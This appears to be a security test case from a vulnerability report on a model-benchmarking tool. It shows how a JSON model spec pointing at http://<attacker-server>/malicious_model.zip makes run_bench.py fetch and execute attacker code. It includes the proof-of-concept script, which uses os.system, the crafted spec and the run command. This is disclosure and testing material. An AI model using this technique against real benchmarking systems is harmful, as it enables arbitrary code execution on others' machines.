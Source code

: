 - Security Test Case:
    1. **Setup Malicious Model**: Create a simple Python script `malicious_model.py` that will be hosted as a "model file". This script should contain code to execute a command on the system, for example, creating a file in `/tmp`.
        ```python
        # malicious_model.py
        import os
        os.system('touch /tmp/attack_success.txt')
        print("Malicious code executed!")
        ```
        Zip this script to create `malicious_model.zip`.
    2. **Host Malicious Model**: Host `malicious_model.zip` on a publicly accessible web server (e.g., using a service like Python's `http.server` for testing purposes). Get the URL of this hosted zip file.
    3. **Craft Malicious Specification**: Create a model specification JSON file (e.g., `malicious_spec.json`) that points to the hosted `malicious_model.zip` URL. Generate the MD5 hash of `malicious_model.zip` and include it in the specification.
        ```json
        {
          "model": {
            "category": "Malicious",
            "description": "Malicious Model Specification",
            "files": {
              "predict": {
                "filename": "predict_net.pb",
                "location": "http://<attacker-server>/malicious_model.zip", // Replace with your malicious server URL
                "md5": "<MD5 hash of malicious_model.zip>" // Replace with the actual MD5 hash
              }
            },
            "format": "caffe2",
            "kind": "deployment",
            "name": "malicious_model"
          },
          "tests": [
            {
              "commands": [
                "{program} --net {files.predict} --warmup 1 --iter 1" // Minimal command
              ],
              "identifier": "malicious_test",
              "iter": 1,
              "metric": "delay",
              "warmup": 1
            }
          ]
        }
        ```
    4. **Run Benchmarking with Malicious Specification**: Execute the benchmarking platform using the crafted `malicious_spec.json` file.
        ```bash
        benchmarking/run_bench.py -b malicious_spec.json --model_cache /tmp/model_cache --info '{"treatment": {"programs": {}}}' --framework generic --platform host
        ```
    5. **Verify Exploit**: Check if the file `/tmp/attack_success.txt` has been created on the benchmarking system. If it exists, it confirms that the malicious code from `malicious_model.zip` was executed, demonstrating arbitrary code execution vulnerability. Also, check the output logs for "Malicious code executed!".
